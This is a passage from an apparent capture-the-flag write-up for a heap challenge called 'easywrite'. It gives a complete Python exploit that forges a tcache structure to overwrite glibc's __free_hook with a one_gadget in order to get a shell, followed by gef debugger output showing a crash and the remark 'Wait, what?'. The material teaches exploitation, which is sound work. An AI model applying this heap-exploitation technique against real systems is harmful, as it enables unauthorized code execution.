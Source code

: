 All that's left to do is to grab a one_gadget and run with it:
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

SIZE = 0x40 # size of the 2nd allocation
free_hook = 0x00000000001EEB28+context.libc.address
tcache_pointer = 0x7facf8666530-0x00007facf8473000 + context.libc.address
fake_tcache = tcache_perthread_struct({free_hook: SIZE})

r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', pack(context.libc.select_gadget(1)))

r.interactive()
```
And we get a shell:
```c
────────────────────────────────────────────────────────────────────────────────────── stack ────
[!] Unmapped address
──────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f792a05bda9 <execvpe+1337>   mov    rax, QWORD PTR [rbp-0x68]
   0x7f792a05bdad <execvpe+1341>   mov    QWORD PTR [rbp-0x48], rax
   0x7f792a05bdb1 <execvpe+1345>   jmp    0x7f792a05bcdb <execvpe+1131>
 → 0x7f792a05bdb6 <execvpe+1350>   call   0x7f792a0a7970 <__stack_chk_fail>
   ↳  0x7f792a0a7970 <__stack_chk_fail+0> endbr64
      0x7f792a0a7974 <__stack_chk_fail+4> push   rax
      0x7f792a0a7975 <__stack_chk_fail+5> pop    rax
      0x7f792a0a7976 <__stack_chk_fail+6> lea    rdi, [rip+0x876e7]        # 0x7f792a12f064
      0x7f792a0a797d <__stack_chk_fail+13> sub    rsp, 0x8
      0x7f792a0a7981 <__stack_chk_fail+17> call   0x7f792a0a7990 <__fortify_fail>
───────────────────────────────────────────────────────────────────────── arguments (guessed) ────
__stack_chk_fail (
)
───────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f792a05bdb6 in execvpe (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f792a05bdb6 → execvpe()
[#1] 0x7f7929f9c0b3 → __libc_start_main()
[#2] 0x7f792a16a17e → hlt
[#3] 0x7ffe534a51a8 → sbb al, 0x0
──────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
Wait, what?